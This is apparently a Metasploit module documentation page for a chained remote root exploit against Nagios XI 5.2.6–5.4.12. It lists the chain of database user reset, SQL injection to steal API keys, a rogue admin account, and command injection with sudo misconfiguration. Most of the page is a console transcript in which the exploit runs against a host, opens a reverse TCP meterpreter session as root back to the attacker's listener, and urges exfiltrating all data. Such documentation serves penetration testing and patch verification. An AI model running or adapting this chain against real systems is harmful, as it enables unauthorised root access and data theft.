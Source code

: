 ## Vulnerable Application
	Nagios XI 5.2.6 - 5.4.12 Chained Remote Root RCE

	This exploit combines many different vulnerabilities in Nagios XI to 
  gain remote root access to the affected host. The process is:

  1. Reset the database user to root.
  2. Exploit SQL injection to extract api keys.
  3. Use api key to add administrative user.
  4. Authenticate to application using newly added user.
  5. Exploit command injection and sudo misconfiguration 
     to get remote root shell.
  6. Remove added admin user, and reset database user.
 
  See [our blog post](http://blog.redactedsec.net/exploits/2018/04/26/nagios.html) for more information

## Verification Steps

  1. ```use exploit/linux/http/nagios```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### Nagios 5.2.7 on CentOS 6.7

```
msf > use exploit/linux/http/nagios_xi

msf exploit(nagios_xi) > set LHOST 15.0.0.181
LHOST => 15.0.0.181
msf exploit(nagios_xi) > set RHOST 10.20.1.194
RHOST => 10.20.1.194
msf exploit(nagios_xi) > exploit

[*] Started reverse TCP handler on 15.0.0.181:4444 
[*] STEP 0: Get Nagios XI version string.
[+] STEP 0: Found Nagios XI version: 5.3.0
[*] STEP 1: Setting Nagios XI DB user to root.
[*] STEP 1: Received a 302 Response. That's good!
[*] STEP 2: Exploiting SQLi to extract user API keys.
[*] STEP 2: Received a 302 Response. That's good!
[*] Found 1 unique api keys
[*] 67e52c8b387b0d17cb94b66788adaa40
[*] STEP 3: Using API Keys to add an administrative user...
[*] STEP 3: trying to add admin user with key 67e52c8b387b0d17cb94b66788adaa40
[+] Added user:aYJupLthTjZnwSQb password:heuOsZJMjwUYFpit userid:3
[*] STEP 4.1: Authenticate as user aYJupLthTjZnwSQb with password heuOsZJMjwUYFpit
[*] STEP 4.1: Get NSP and nagiosxi for login..
[*] STEP 4.1: login_nsp 1c52b832891f65d961e69d0db9a583f88c1dddcf637d37405c88d70a5371fe77 
[*] STEP 4.1: login_nagiosxi 5kk73vr4i3g6v1d5ekg2mtgd26
[*] STEP 4.2: Authenticating...
[*] STEP 4.2: authed_nagiosxi 5kk73vr4i3g6v1d5ekg2mtgd26
[*] STEP 5.1: executing payload
[*] STEP 5.2: removing scripts from disc
[*] Command Stager progress - 100.00% done (701/701 bytes)
[*] STEP 6.1: Setting Nagios XI DB user to nagiosql.
[*] STEP 6.1: Received a 302 Response. That's good!
[*] STEP 6.2: deleting admin
[*] Sending stage (847604 bytes) to 10.20.1.194
[*] Meterpreter session 1 opened (15.0.0.181:4444 -> 10.20.1.194:35750) at 2018-04-26 17:36:22 -0400
[*] Be sure to run post/linux/gather/enum_nagios_xi to exfil all the data off this box!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 

```

